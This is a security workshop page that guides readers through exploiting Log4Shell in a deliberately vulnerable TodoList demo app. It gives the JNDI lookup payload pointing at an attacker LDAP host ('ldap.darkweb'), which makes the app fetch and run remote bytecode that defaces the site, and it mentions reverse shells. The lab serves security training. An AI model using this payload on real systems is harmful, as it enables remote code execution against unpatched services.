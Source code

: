 +++
title = "Step 7: Exploit a Vulnerable Open Source component"
chapter = false
weight = 42
+++

## Exploiting an RCE vulnerability in the TodoList application. 

The `Goof` repo TodoList application includes various exploits to demonstrate the risks of open source vulnerabilities. We'll demonstrate the infamous Log4Shell vulnerability as an example of an extremenly profific open source package with a critical CVE that was relatively easy to exploit and gives malicous actors a remote code execution (RCE) vector of attack.

### Open the website
This example is best exploited from your browser so open a tab and navigate to the `todolist` application's loadbalancer address with `/todolist` appended to it.  That hostname was stored in the `TODOLIST_LB` variable during a prior section so you can easily get a string for the URL by echoing it out like this:


```sh
echo $TODOLIST_LB/todolist
```
```sh
34.174.166.26/todolist
```

When you open that URL in your browser, you should see the ToDoList welcome page
![todolist-welcome-page](/images/todolist-welcome.png)

### Log into the app
Click "Sign in" and log into the form with the following pre-populated user account:

* User: foo@bar.org
* Password: foobar

![todolist-login](/images/todolist-login.png)

### Trigger the exploit
In the search field enter the following string `${jndi:ldap://ldap.darkweb:80/#Vandalize}` and submit the search.
![todolist-search](/images/todolist-search-jndi.png)

### Vandalized!
Immediately*, you can see that the header for the entire site has been modified to show a the hacker equivelent of graphiti!
![todolist-vandalized](/images/todolist-vandalized.png)
{{% notice note %}}
\* Sometimes the hacked header can take a few seconds to appear, if you don't see the hacked page header immediately, try refreshing the page and/or navigating to another page in the app. 
{{% /notice %}}


## What?  Why?
A full rundown of the Log4Shell issue is out of scope for this workshop but the high level description is:

* This application is pulling in an older version of the log4j open source library
* The log4j code (at that version) blindly interpolates the JNDI addresses and queries the network for remote values
* Search queries are being logged by the application using log4j
* When the interpolated `${jndi:ldap://ldap.darkweb:80/#Vandalize}` string was encountered, log4j queried an LDAP server named `ldap.darkweb` to ask for something named "/#Vandalize"
* 'ldap.darkweb' is a malicous LDAP impersonator that recognized this request and interacted with log4j code in a way that caused malicuous Java bytecode to be returned and run in the JVM by log4j
* That bytecode modified the header.jsp file in this webapp

The returned bytecode could have done far more mallicous things, not the least of which would be to open a remote, reverse shell into the container.

## Catching and stoping this
In the next step we will look into ways to catch and fix vulnerabilities like this.
